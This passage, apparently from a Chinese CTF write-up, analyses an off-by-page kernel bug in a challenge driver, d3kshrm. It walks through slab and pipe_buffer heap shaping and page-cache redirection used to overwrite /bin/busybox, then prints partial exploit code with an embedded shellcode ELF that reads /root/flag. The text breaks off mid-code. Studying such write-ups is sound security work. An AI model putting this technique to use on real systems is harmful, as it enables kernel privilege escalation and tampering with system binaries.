1. $$P(E_1)$$: pages数组分配在特定位置的概率
    - order 3块包含8个4KB页
    - 特定页的概率 ≈ $$\frac{1}{8} = 0.125$$
    - 通过大量分配可提高概率

2. $$P(E_2 \mid E_1)$$: 给定$$E_1$$下$$E_2$$的条件概率
    - 需要控制内存分配顺序
    - 通过精确的内存操作序列可提高概率
    - 估计值: 0.3-0.7

3. $$P(E_3 \mid E_1, E_2)$$: 目标页面可控的概率
    - 依赖于对内核内存分配器的理解
    - 通过特定对象分配可实现
    - 估计值: 0.5-0.9

4. $$P(E_4 \mid E_1, E_2, E_3)$$: 成功触发的概率
    - 依赖于用户空间操作的正确性
    - 估计值: 0.8-0.99

**总体成功概率**：
通过优化各阶段操作，总体成功概率可达：

$$
P_{\text{success}} \approx 0.125 \times 0.5 \times 0.7 \times 0.9 \approx 0.039
$$

通过多次尝试（如32次），成功概率提高为：

$$
P_{\text{success, 32次}} = 1 - (1 - 0.039)^{32} \approx 0.72
$$

### 2-4. 内存子系统交互机制

#### 2-4-1. kmalloc-4k分配器行为

Linux内核的kmalloc分配器为不同大小的对象维护多个slab缓存。d3kshrm模块使用专用的4KB slab缓存，这影响了内存布局的可预测性。

**slab缓存组织结构**

d3kshrm模块通过专用slab缓存d3kshrm_cache管理pages数组的内存分配。此缓存具有以下关键特性：

<pre>
d3kshrm_cache slab缓存结构
┌─────────────────────────────────────────────────────────────┐
│                 slab缓存: d3kshrm_cache                     │
├─────────────────────────────────────────────────────────────┤
│ 对象大小: 4096字节 (0x1000)                                  │
│ 缓存标志: SLAB_NO_MERGE                                      │
│ 对齐要求: 8字节                                              │
├─────────────────────────────────────────────────────────────┤
│                    活动slab列表                              │
│ ┌─────────────────────────────────────────────────┐         │
│ │                 slab描述符                      │         │
│ │ 页帧: order 3连续内存 (8页, 32KB)                │         │
│ │ 对象数: 8个 (4096字节/对象)                      │         │
│ │ 空闲对象链表: 维护空闲对象                        │         │
│ └─────────────────────────────────────────────────┘         │
│                            │                                │
│ ┌─────────────────────────────────────────────────┐         │
│ │                 order 3内存块                    │         │
│ ├─────────────────────────────────────────────────┤         │
│ │ 页0       页1       页2     页3       页4 ...    │         │
│ │ ┌──┐     ┌──┐     ┌──┐     ┌──┐     ┌──┐        │         │
│ │ │obj0│   │obj1│   │obj2│   │obj3│   │obj4│  ... │         │
│ │ └──┘     └──┘     └──┘     └──┘     └──┘        │         │
│ └─────────────────────────────────────────────────┘         │
└─────────────────────────────────────────────────────────────┘
</pre>

**slab缓存分配状态机**：


```mermaid
stateDiagram-v2
    [*] --> 空闲状态
    空闲状态 --> 分配对象: kmem_cache_alloc
    分配对象 --> 使用中: 对象被使用
    使用中 --> 释放对象: kmem_cache_free

    释放对象 --> 部分空闲: slab有部分空闲对象
    部分空闲 --> 分配对象: 再次分配

    部分空闲 --> 完全空闲: 所有对象都释放
    完全空闲 --> 释放slab: 内存压力时

    释放slab --> 空闲状态: slab返回页分配器

    空闲状态 --> 创建新slab: 无空闲对象
    创建新slab --> 分配对象: 从新slab分配
```

#### 2-4-2. 页框分配器交互

当pages数组恰好占满整个物理页时，越界访问会触及下一个物理页。页框分配器的行为决定了这个相邻页面的内容。

**order 3内存块分配模式**：

Linux内核的伙伴系统以2的幂次为单位管理物理内存。order 3对应8个连续物理页（32KB）。当slab缓存需要新内存时，从伙伴系统获取order 3块，然后将其分割为8个4KB对象。

<pre>
order 3连续内存块分配模式
┌─────────────────────────────────────────────────────────────┐
│                页框分配器: order 3内存块                     │
├─────────────────────────────────────────────────────────────┤
│ 1. 分配order 3连续内存块 (8页, 32KB)                          │
│    ┌───┬───┬───┬───┬───┬───┬───┬───┐                        │
│    │ 0 │ 1 │ 2 │ 3 │ 4 │ 5 │ 6 │ 7 │ 页索引                  │
│    └───┴───┴───┴───┴───┴───┴───┴───┘                        │ 
│                                                             │
│ 2. slab缓存将order 3块分割为8个对象                           │
│    ┌─────┬─────┬─────┬─────┬─────┬─────┬─────┬─────┐        │
│    │对象0 │对象1│对象2│对象3│对象4 │对象5│对象6│对象7 │        │
│    └─────┴─────┴─────┴─────┴─────┴─────┴─────┴─────┘        │
│                                                             │
│ 3. pages数组可能占据其中一个对象                              │
│    ┌───────────────────────────────────────────────┐        │
│    │ 假设pages数组在对象6位置                        │        │
│    │ 对象6: pages数组 (索引0-511)                   │        │
│    │ 对象7: pages[512]越界访问点                    │        │
│    └───────────────────────────────────────────────┘        │
└─────────────────────────────────────────────────────────────┘
</pre>

在内存布局构造过程中，关键目标是使pages数组分配在order 3块的最后一个4KB页，而目标页面分配在相邻order 3块的第一个4KB页。这样，当访问pages[512]时，恰好跨越到目标页面的起始位置。

**内存跨越的数学关系**：
设pages数组所在的物理页基地址为$$P_{\text{pages}}$$，目标页面基地址为$$P_{\text{target}}$$。理想情况下：

$$
P_{\text{target}} = P_{\text{pages}} + 4096
$$

即目标页面紧邻pages数组页之后。此时，访问pages[512]的地址为：

$$
\text{Addr}_{\text{pages}[512]} = A + 4096
$$

其中$$A$$是pages数组基地址。由于$$A$$在$$[P_{\text{pages}}, P_{\text{pages}}+4096)$$范围内，所以：

$$
\text{Addr}_{\text{pages}[512]} \in [P_{\text{pages}}+4096, P_{\text{pages}}+8192) = [P_{\text{target}}, P_{\text{target}}+4096)
$$

这意味着越界访问将读取目标页面的前8字节内容。

#### 2-4-3. 管道缓冲区子系统

管道缓冲区是内存布局构造中的关键组件，其特性使其成为理想的目标页面载体。

**pipe_buffer结构分析**

pipe_buffer结构体是Linux内核中管理管道缓冲区的核心数据结构，每个结构体大小为40字节。

```c
/* offset      |    size */  type = struct pipe_buffer {
/* 0x0000      |  0x0008 */    struct page *page;
/* 0x0008      |  0x0004 */    unsigned int offset;
/* 0x000c      |  0x0004 */    unsigned int len;
/* 0x0010      |  0x0008 */    const struct pipe_buf_operations *ops;
/* 0x0018      |  0x0004 */    unsigned int flags;
/* XXX  4-byte hole      */
/* 0x0020      |  0x0008 */    unsigned long private;

                               /* total size (bytes):   40 */
                             }
```

在一个4KB物理页中，可以容纳约64个pipe_buffer结构体。这些结构体通常连续排列，形成管道缓冲池。

<pre>
管道缓冲区页面布局 (4KB页)
┌─────────────────────────────────────────────────────────────┐
│               一个4KB页中的pipe_buffer布局                   │
├─────────────────────────────────────────────────────────────┤
│ ┌─────┬─────┬─────┬─────┬─────┬─────┬─────┬─────┬─────┐     │
│ │buf0 │buf1 │buf2 │buf3 │buf4 │buf5 │buf6 │buf7 │ ... │     │
│ └─────┴─────┴─────┴─────┴─────┴─────┴─────┴─────┴─────┘     │
│ 每个buf大小为40字节，一页可容纳约64个buf                       │
│ 每个buf包含page指针，可指向任意文件页面                        │
│ 通过splice系统调用可修改page指针                              │
└─────────────────────────────────────────────────────────────┘
</pre>

**splice系统调用修改机制**：


```mermaid
sequenceDiagram
    participant User as 用户进程
    participant Kernel as 内核
    participant Pipe as 管道子系统
    participant FS as 文件系统
    participant PageCache as 页面缓存

    Note over User: 准备工作
    User->>FS: 打开目标文件("/bin/busybox")
    FS-->>User: 返回文件描述符target_fd

    Note over User: 修改pipe_buffer->page指针
    User->>Kernel: splice(pipe_fd, NULL, target_fd, NULL, len, 0)

    Kernel->>Pipe: 调用管道传输函数
    Pipe->>Pipe: 查找目标pipe_buffer结构
    Pipe->>FS: 获取目标文件的页面缓存
    FS->>PageCache: 查找或分配文件页面
    PageCache-->>FS: 返回struct page指针
    FS-->>Pipe: 返回page指针

    Pipe->>Pipe: 修改pipe_buffer->page = 文件页面指针
    Pipe-->>Kernel: 操作完成
    Kernel-->>User: 返回成功
```

### 2-5. 完整的利用过程分析

#### 阶段一：环境准备与基础分配

**步骤1-1: 打开驱动文件描述符**

```
操作序列:
1. 循环0x20次:
   fd[i] = open("/proc/d3kshrm", O_RDWR)

目标: 准备足够的文件描述符用于后续操作
数量: 0x20 (32)个文件描述符
作用: 每个fd可用于绑定一个chunk
```

**步骤1-2: 创建初始chunk（page_count=0）**


```mermaid
flowchart TD
    Start[开始创建初始chunk] --> Loop[循环i=0到0x1F]
    Loop --> OpenFD[打开/proc/d3kshrm]
    OpenFD --> IOCtl["ioctl(fd, CMD_CREATE_D3KSHRM, 0)"]
    IOCtl --> StoreIdx[保存返回的chunk索引]
    StoreIdx --> Check{是否所有创建成功?}
    Check -- 否 --> Retry[重试或调整]
    Check -- 是 --> Next[进入下一阶段]

    Retry --> Loop
```

**内存状态变化**：

初始分配后，内核内存布局发生显著变化。通过32次CMD_CREATE_D3KSHRM调用（page_count=0），驱动模块分配了32个chunk_t结构体和对应的pages数组。每个pages数组占用一个完整的4KB物理页，从专用的d3kshrm_cache slab缓存中分配。

这些分配消耗了多个order 3连续内存块。每个order 3块包含8个4KB页，可容纳8个pages数组。32个分配大约需要4-5个完整的order 3块。此时内存中pages数组页与空闲页交错分布，但由于page_count=0，这些pages数组实际上不包含有效的页面指针，仅为后续的内存布局构造奠定基础。

**步骤1-3: 创建管道资源**

```
操作序列:
1. 创建0xf0个管道对:
   for (i = 0; i < 0xf0; i++) {
       pipe(pipe_fds[i]);  // pipe_fds[i][0]读端, [1]写端
   }

目标: 准备大量管道用于后续内存置换
数量: 0xf0 (240)个管道，480个文件描述符
作用: 管道缓冲区将用于占用释放的内存
```

#### 阶段二：内存布局精确塑造

**步骤2-1: 释放奇数索引chunk**

```
操作序列:
1. 释放奇数索引chunk:
   for (i = 1; i < 0x20; i += 2) {
       ioctl(fd[i], CMD_DELETE_D3KSHRM, chunk_idx[i]);
   }

目标: 释放部分pages数组内存
数量: 0x10 (16)个chunk
效果: 16个4KB的pages数组页被释放回slab缓存
```

**步骤2-2: 管道缓冲区堆喷**

```
操作序列:
1. 调整管道缓冲区大小:
   for (i = 0; i < 0xf0; i++) {
       fcntl(pipe_fds[i][0], F_SETPIPE_SZ, 0x1000 * 64);
   }

参数说明:
- 0x1000: 4KB页面大小
- 64: 管道缓冲区页面数
- 总大小: 4KB * 64 = 256KB

目标: 分配大量管道缓冲区，占用刚释放的奇数索引chunk的pages数组内存
机制: 管道缓冲区也通过kmalloc-4k分配
预期: 部分管道缓冲区占据之前奇数索引chunk的pages数组位置
```

**内存布局变化**：

在内存置换过程中，内存布局经历了三个阶段的变化：

<pre>
内存布局变化三个阶段
┌─────────────────────────────────────────────────────────────┐
│           第一阶段: 初始状态                                 │
├─────────────────────────────────────────────────────────────┤
│ order 3块0: ┌───┬───┬───┬───┬───┬───┬───┬───┐               │
│             │P0 │P1 │P2 │P3 │P4 │P5 │P6 │P7 │               │
│             └───┴───┴───┴───┴───┴───┴───┴───┘               │
│ 其中P表示pages数组页 (P0, P2, P4, P6为偶数索引;               │
│ 其中P表示pages数组页 (P1, P3, P5, P7为奇数索引;               │
├─────────────────────────────────────────────────────────────┤
│           第二阶段: 释放奇数索引页后                          │
├─────────────────────────────────────────────────────────────┤
│ order 3块0: ┌───┬───┬───┬───┬───┬───┬───┬───┐               │
│             │P0 │F1 │P2 │F3 │P4 │F5 │P6 │F7 │               │
│             └───┴───┴───┴───┴───┴───┴───┴───┘               │
│ 其中F表示空闲页 (可被重新分配)                                │
├─────────────────────────────────────────────────────────────┤
│           第三阶段: 管道缓冲区分配后                          │
├─────────────────────────────────────────────────────────────┤
│ order 3块0: ┌───┬───┬───┬───┬───┬───┬───┬───┐               │
│             │P0 │B1 │P2 │B3 │P4 │B5 │P6 │B7 │               │
│             └───┴───┴───┴───┴───┴───┴───┴───┘               │
│ 其中B表示pipe_buffer页 (占据之前奇数索引chunk的pages数组位置)  │
└─────────────────────────────────────────────────────────────┘
</pre>

此时内存布局呈现pages数组页与pipe_buffer页交错分布的特征。关键特性是pages数组和pipe_buffer共享相同大小的slab缓存，使得它们可以相互置换，为越界访问创造目标页面。

**步骤2-3: 释放偶数索引chunk并重新分配**

```
操作序列:
1. 释放偶数索引chunk:
   for (i = 0; i < 0x20; i += 2) {
       ioctl(fd[i], CMD_DELETE_D3KSHRM, chunk_idx[i]);
   }

2. 重新创建chunk (page_count=0x200):
   for (i = 0; i < 0x20; i++) {
       new_chunk_idx[i] = ioctl(fd[i], CMD_CREATE_D3KSHRM, 0x200);
   }

参数说明:
- page_count=0x200 (512)
- 每个pages数组恰好占满4KB页
- 越界点pages[512]位于下一页起始

目标: 创建满page_count的chunk，使越界点对齐目标页
```

**最终内存布局**：

成功构造的目标内存布局具有特定结构。假设在某个order 3块N中，pages数组页占据了该块的最后一个4KB页。这个pages数组包含512个有效页指针，索引范围0-511。数组的越界点pages[512]位于物理地址A+4096处，其中A是pages数组基地址。

相邻的order 3块N+1的第一个4KB页被分配为目标页面，其中包含多个pipe_buffer结构。通过内存布局的精心构造，使pages[512]的地址恰好指向这个目标页面的起始位置。

<pre>
目标内存布局构造示意图
┌─────────────────────────────────────────────────────────────┐
│              order 3块N: pages数组页                         │
├─────────────────────────────────────────────────────────────┤
│ ┌─────────────────────────────────────────────────┐         │
│ │            pages数组 (chunk X)                  │         │
│ │ 索引0-511: 有效页指针                            │         │
│ │ 越界点: pages[512] 位于下一页起始                 │         │
│ └─────────────────────────────────────────────────┘         │
│                            │                                │
│              order 3块N+1: 目标页面                          │
├─────────────────────────────────────────────────────────────┤
│ ┌─────────────────────────────────────────────────┐         │
│ │            目标页面 (pipe_buffer页)              │         │
│ │ 包含多个pipe_buffer结构                          │         │
│ │ 其中一个pipe_buffer->page可被修改                │         │
│ └─────────────────────────────────────────────────┘         │
│                                                             │
│ 越界访问关系:                                                │
│ chunk->pages[512] 读取目标页面的前8字节                       │
│ 这8字节被解释为struct page*指针                               │
│ 实际是目标页面中第一个pipe_buffer的page成员                    │
└─────────────────────────────────────────────────────────────┘
</pre>

当发生越界访问时，chunk->pages[512]将读取目标页面的前8字节。这8字节被内核解释为struct page\*指针，而实际上它是目标页面中第一个pipe_buffer结构的page成员。通过预先修改这个page指针，可以控制越界访问实际获取的物理页面。

#### 阶段三：目标页面控制与指针重定向

**步骤3-1: 识别目标页面位置**

技术要求包括三个方面：确定哪个chunk的pages[512]指向目标页、确定目标页中pipe_buffer的具体位置、建立完整的映射关系。

识别方法基于内存布局的概率特性，通过多次尝试和错误检测来提高成功率。还可以通过特定模式的内存写入和读取验证来精确定位。例如，可以在疑似目标页面中写入特殊标记，然后通过所有可能的chunk进行越界访问，检查是否读取到该标记。

**步骤3-2: 修改pipe_buffer的page指针**

splice系统调用提供了修改pipe_buffer->page指针的机制。具体操作参数包括：目标管道（之前创建的管道之一）、目标文件（如/bin/busybox）、传输长度（至少1字节以触发页面获取）、传输方式（使用splice的管道到文件传输）。

操作效果包括三个层面：内核获取目标文件的页面缓存、将pipe_buffer->page指针指向该文件页面、后续通过越界访问可读取该文件页面。这一步骤的关键在于精确控制哪个pipe_buffer的page指针被修改，需要了解目标页面中pipe_buffer的布局。

**步骤3-3: 绑定chunk与建立映射**

操作序列包括三个主要步骤：

1. 绑定chunk到文件描述符：通过CMD_SELECT_D3KSHRM命令将每个文件描述符绑定到对应的chunk。这一步建立文件描述符与chunk之间的关联，为后续mmap操作准备条件。

2. 建立内存映射：通过mmap系统调用将每个chunk映射到用户空间。映射大小为0x200*0x1000 = 512*4096 = 2MB，权限为可读可写，使用共享映射标志。这为用户空间访问chunk中的页面创建了虚拟地址映射。

3. 调整映射大小：通过mremap系统调用调整映射区域大小，增加一个页面（0x201\*0x1000）。这一步是必选的，为越界访问准备足够的地址空间。MREMAP_MAYMOVE标志允许内核在需要时移动映射区域。

#### 阶段四：漏洞触发与验证

**步骤4-1: 触发越界访问**


```mermaid
flowchart TD
    Start[开始触发越界访问] --> Loop[循环所有映射]
    Loop --> CalcAddr[计算越界地址]

    CalcAddr --> Access[访问越界地址]
    Access --> PageFault[触发缺页异常]

    PageFault --> VM_Fault[内核调用d3kshrm_vm_fault]
    VM_Fault --> CheckCondition{边界检查}

    CheckCondition -- 通过 --> OutOfBounds["越界访问pages[512]"]
    OutOfBounds --> GetPage[获取'页面'指针]
    GetPage --> MapToUser[映射到用户空间]

    MapToUser --> ReadContent[读取页面内容]
    ReadContent --> Verify{验证内容}

    Verify -- ELF魔数匹配 --> Success[成功识别目标文件]
    Verify -- 不匹配 --> NextMapping[尝试下一个映射]

    Success --> Record[记录成功映射]
    NextMapping --> Loop

    Record --> Finish[完成]
```

**地址计算与访问代码示例**：

在用户空间代码中，需要精确计算越界访问地址。首先获取映射区域的基地址mapping，然后计算偏移512个页面的地址：mapping + 512 \* 0x1000。对这个地址进行读取操作将触发缺页异常。

```c
// 计算越界访问地址
// 映射基地址: mapping
// 页面大小: 0x1000 (4096)
// 越界偏移: 512个页面
uint64_t *overflow_addr = (uint64_t *)(mapping + 512 * 0x1000);

// 访问该地址，触发缺页异常
uint64_t first_8bytes = *overflow_addr;

// 检查是否为ELF文件魔数
#define ELF_MAGIC 0x464C457F  // "\x7FELF"
if (first_8bytes == ELF_MAGIC) {
    // 成功访问到目标文件
    printf("Successfully accessed target file via overflow\n");
}
```

读取到的前8字节数据可能与ELF文件魔数（0x464C457F，即"\x7FELF"）进行比较。如果匹配，说明成功访问到目标ELF文件页面；如果不匹配，则需要尝试下一个映射区域。

**步骤4-2: 缺页异常处理链详细过程**

缺页异常处理是一个复杂的内核过程，涉及多个子系统协作：


```mermaid
sequenceDiagram
    participant 用户空间 as 用户空间进程
    participant CPU as CPU硬件
    participant 异常处理 as 内核异常处理程序
    participant VMA as 虚拟内存区域(VMA)
    participant 缺页处理 as d3kshrm_vm_fault
    participant 内存管理 as 内存管理子系统
    participant 目标页面 as 目标文件页面
    participant 验证 as 用户空间验证

    用户空间->>用户空间: 访问越界地址: mapping + 512*4096
    用户空间->>CPU: 执行读取8字节指令

    Note over CPU,异常处理: 步骤1-2: 缺页异常触发
    CPU-->>CPU: 检测页面不存在
    CPU->>异常处理: 触发缺页异常<br/>CR2=错误地址

    Note over 异常处理,VMA: 步骤3: 内核异常处理
    异常处理->>VMA: 查找地址对应的VMA
    VMA-->>异常处理: 返回vma结构
    异常处理->>VMA: 检查vma访问权限
    VMA-->>异常处理: 权限有效
    异常处理->>缺页处理: 调用vma->vm_ops->fault

    Note over 缺页处理,内存管理: 步骤4-5: 边界检查与越界访问
    缺页处理->>缺页处理: 获取chunk指针: vma->vm_private_data
    缺页处理->>缺页处理: 计算pgoff = (地址 - vma->vm_start) >> 12
    缺页处理->>缺页处理: 边界检查: pgoff(512) > page_count(512)? → 否
    缺页处理->>缺页处理: 读取chunk->pages[512]
    缺页处理->>缺页处理: 获取pipe_buffer->page指针

    Note over 缺页处理,目标页面: 步骤6: 页面获取与映射
    缺页处理->>目标页面: 获取页面指针(实际是目标文件页面)
    目标页面-->>缺页处理: 返回页面结构
    缺页处理->>目标页面: get_page()增加引用计数
    缺页处理->>内存管理: 设置vmf->page = 获取的页面
    内存管理->>内存管理: 建立页面映射
    内存管理-->>异常处理: 映射完成

    Note over 异常处理,CPU: 步骤7: 异常处理完成
    异常处理-->>CPU: 返回缺页异常处理结果
    CPU-->>用户空间: 继续执行读取指令

    Note over 用户空间,验证: 步骤8: 用户空间验证
    用户空间->>用户空间: 读取目标文件前8字节
    用户空间->>验证: 验证ELF魔数(0x464C457F)

    alt 魔数匹配
        验证-->>用户空间: 验证成功<br/>访问到目标文件
    else 魔数不匹配
        验证-->>用户空间: 验证失败<br/>未访问到目标文件
    end
```

#### 阶段五：内存操作与系统影响

**步骤5-1: 目标页面内容访问**

成功验证后，用户空间获得对目标文件页面的直接访问权限。可以读取整个页面（4096字节）的内容，分析文件结构包括ELF文件头、程序头表、节头表、代码和数据段等。还需要验证页面的访问权限，检查页面是否可写，以及修改是否会影响文件本身。

**步骤5-2: 页面内容修改**

如果页面可写，可以进行内容修改。可能的修改包括修改ELF文件头（如入口点地址、程序头表位置）、修改代码段（注入特定指令序列、修改控制流逻辑）。但需要注意修改可能破坏文件完整性，需要考虑页面缓存一致性，修改可能被写回磁盘。

**步骤5-3: 系统行为影响**


```mermaid
stateDiagram-v2
    [*] --> 页面被修改
    页面被修改 --> 页面缓存更新: 写操作

    页面缓存更新 --> 文件被执行: 执行修改后的文件
    页面缓存更新 --> 页面被写回: 内存压力或主动同步

    文件被执行 --> 执行修改代码: 控制流改变
    执行修改代码 --> 系统状态变化: 权限提升或其他效果

    页面被写回 --> 磁盘文件修改: 持久化修改
    磁盘文件修改 --> 系统重启后生效: 永久修改

    系统状态变化 --> [*]
    系统重启后生效 --> [*]
```

### 2-6. 技术总结

Off-by-Page漏洞展示了现代操作系统安全中的深层次问题，其技术本质在于边界检查逻辑的微妙缺陷。一个字符的差异（`>`与`>=`）导致完全不同的安全属性，这强调了边界检查必须严谨、完整的重要性。该漏洞的触发条件揭示了内存管理的复杂性，包括多级内存分配器的交互、物理页与虚拟页的映射关系，以及内存布局的可预测性与随机性之间的平衡。通过深入分析驱动模块与内存子系统的交互、文件系统与页面缓存的关联，以及进程间通信机制的影响，可以看出系统组件间相互依赖的复杂性。从安全设计角度，这一案例凸显了深度防御原则的必要性，不应依赖单一安全机制，而应在代码层面实施正确的边界检查，在编译器层面应用栈保护和边界检查，在运行时层面利用ASLR和DEP等技术，以及在硬件层面启用SMAP和SMEP等特性。同时，最小权限原则要求驱动模块仅分配必要权限，用户空间访问应受严格限制，资源访问应基于最小需求。失效安全设计则强调在失败时应进入安全状态，错误处理应谨慎设计，不应泄露敏感信息。这一漏洞分析为构建更安全的操作系统和驱动模块提供了宝贵经验，不仅有助于修复特定漏洞，更为整个系统的安全设计提供了重要参考。

## 3. 实战演练

exploit核心代码如下：

```c
#define CHUNK_COUNT 0x20
#define MAX_PIPE_COUNT 0xf0

#define DEVICE_PATH "/proc/d3kshrm"
#define VICTIM_FILE "/bin/busybox"

#define CMD_CREATE_CHUNK 0x3361626e
#define CMD_DELETE_CHUNK 0x74747261
#define CMD_BIND_CHUNK 0x746e6162
#define CMD_UNBIND_CHUNK 0x33746172

#define VULN_CHUNK_SIZE 0x200
#define PIPE_BUF_SIZE (0x1000 * 64)
#define MMAP_SIZE (0x1000 * 0x200)
#define MREMAP_SIZE (0x1000 * 0x201)
#define ELF_MAGIC 0x3010102464c457f

int pipe_fds[MAX_PIPE_COUNT][2];
int chunk_ids[CHUNK_COUNT];
int dev_fd[CHUNK_COUNT];
void *victim_map[CHUNK_COUNT];
int victim_fd;

// clang-format off
unsigned char elf_code[] = {
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e, 0x00, 0x01, 0x00, 0x00, 0x00,
    0x80, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0xf0, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38, 0x00, 0x01, 0x00, 0x40, 0x00,
    0x04, 0x00, 0x03, 0x00, 0x01, 0x00, 0x00, 0x00, 0x07, 0x00, 0x00, 0x00,
    0x80, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x00, 0x40, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x80, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x57, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x57, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xb8, 0x02, 0x00, 0x00,
    0x00, 0x48, 0x8d, 0x3d, 0x40, 0x00, 0x00, 0x00, 0x48, 0x31, 0xf6, 0x48,
    0x31, 0xd2, 0x0f, 0x05, 0x48, 0x89, 0xc7, 0x48, 0x31, 0xc0, 0x48, 0x81,
    0xec, 0x00, 0x01, 0x00, 0x00, 0x48, 0x89, 0xe6, 0xba, 0x00, 0x01, 0x00,
    0x00, 0x0f, 0x05, 0xb8, 0x01, 0x00, 0x00, 0x00, 0xbf, 0x01, 0x00, 0x00,
    0x00, 0x48, 0x89, 0xe6, 0xba, 0x00, 0x01, 0x00, 0x00, 0x0f, 0x05, 0x48,
    0x31, 0xff, 0xb8, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x00, 0x00, 0x00,
    0x2f, 0x72, 0x6f, 0x6f, 0x74, 0x2f, 0x66, 0x6c, 0x61, 0x67, 0x00, 0x00,
    0x2e, 0x73, 0x68, 0x73, 0x74, 0x72, 0x74, 0x61, 0x62, 0x00, 0x2e, 0x74,
    0x65, 0x78, 0x74, 0x00, 0x2e, 0x64, 0x61, 0x74, 0x61, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x0b, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00,
    0x07, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x80, 0x00, 0x40, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x80, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x49, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x00, 0x00,
    0x01, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0xcc, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0xcc, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x0b, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x04, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x01, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0xd7, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x17, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00,
};
// clang-format on

void create_pipe(int pipe_idx) {
  if (pipe(pipe_fds[pipe_idx]) < 0) {
    log.error("Pipe creation failed at index %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}

void resize_pipe_buffer(int pipe_idx, int new_size) {
  if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
    log.error("Pipe resize failed for pipe %d", pipe_idx);
    exit(EXIT_FAILURE);
  }
}

int create_chunk(int dev_fd, size_t num) {
  return ioctl(dev_fd, CMD_CREATE_CHUNK, num);
}

void delete_chunk(int dev_fd, size_t index) {
  ioctl(dev_fd, CMD_DELETE_CHUNK, index);
}

void bind_chunk(int dev_fd, size_t id) { ioctl(dev_fd, CMD_BIND_CHUNK, id); }

void unbind_chunk(int dev_fd, size_t index) {
  ioctl(dev_fd, CMD_UNBIND_CHUNK, index);
}

int main() {
  loff_t offset = 1;

  /**********************************************************
   * Stage 1: Environment Setup
   **********************************************************/
  log.info("Initializing exploit environment");
  bind_core(0);
  save_status();

  /**********************************************************
   * Stage 2: Opening Device and Victim File
   **********************************************************/
  log.info("Opening " DEVICE_PATH " device file");
  for (int i = 0; i < CHUNK_COUNT; i++) {
    dev_fd[i] = open(DEVICE_PATH, O_RDWR);
    if (dev_fd[i] < 0) {
      log.error("Failed to open device file");
      exit(EXIT_FAILURE);
    }
  }

  log.info("Opening victim file: " VICTIM_FILE);
  victim_fd = open(VICTIM_FILE, O_RDONLY);
  if (victim_fd < 0) {
    log.error("Failed to open victim file");
    exit(EXIT_FAILURE);
  }

  /**********************************************************
   * Stage 3: Heap Feng Shui Preparation
   **********************************************************/
  log.info("Creating %d pipes for heap shaping", MAX_PIPE_COUNT);
  for (int i = 0; i < MAX_PIPE_COUNT; i++) {
    create_pipe(i);
  }

  /**********************************************************
   * Stage 4: Order-3 Page Spray
   **********************************************************/
  log.info("Spraying %d order-3 pages via chunk allocation", CHUNK_COUNT);
  for (int i = 0; i < CHUNK_COUNT; i++) {
    chunk_ids[i] = create_chunk(dev_fd[0], 0);
  }

  /**********************************************************
   * Stage 5: Free Odd-indexed Order-3 Pages
   **********************************************************/
  log.info("Freeing odd-indexed order-3 pages");
  for (int i = 1; i < CHUNK_COUNT; i += 2) {
    delete_chunk(dev_fd[0], chunk_ids[i]);
  }

  /**********************************************************
